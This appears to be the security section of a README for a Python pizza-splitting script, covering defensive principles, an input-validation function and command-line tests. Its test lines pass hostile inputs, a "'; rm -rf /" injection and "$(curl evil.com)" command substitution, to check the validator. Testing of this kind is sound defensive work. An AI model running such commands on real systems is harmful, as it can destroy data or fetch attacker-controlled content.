 ### 1. Defense in Depth
- Multiple layers of validation
- Input sanitization at entry points
- Data validation before processing
- Output validation before display

### 2. Principle of Least Privilege
- File operations restricted to data directory
- Minimal file permissions (0o755)
- No unnecessary system access

### 3. Fail Securely
- Graceful error handling
- No sensitive information in error messages
- Safe defaults for invalid input

### 4. Input Validation
```python
# Comprehensive validation pipeline
def _validate_name(self, name: str) -> str:
    # Type check
    if not isinstance(name, str):
        raise ValueError("Pizza name must be a string")
    
    # Length check
    name = name.strip()
    if not name or len(name) > MAX_PIZZA_NAME_LENGTH:
        raise ValueError("Invalid name length")
    
    # Content validation
    if not re.match(r'^[a-zA-Z0-9\s\-\'\&\.]+$', name):
        raise ValueError("Invalid characters")
    
    return name
```

## Testing Security Features

### Command Line Validation
```bash
# Test input validation
python3 pizza_split_legacy.py "'; rm -rf /" 4    # Injection attempt
python3 pizza_split_legacy.py -999999999999 4    # Overflow attempt
python3 pizza_split_legacy.py "$(curl evil.com)" 4  # Command injection

# Test argument parsing
python3 pizza_split_legacy.py 0 4               # Invalid range
python3 pizza_split_legacy.py abc 4             # Invalid type
python3 pizza_split_legacy.py 99999 4           # Overflow
```
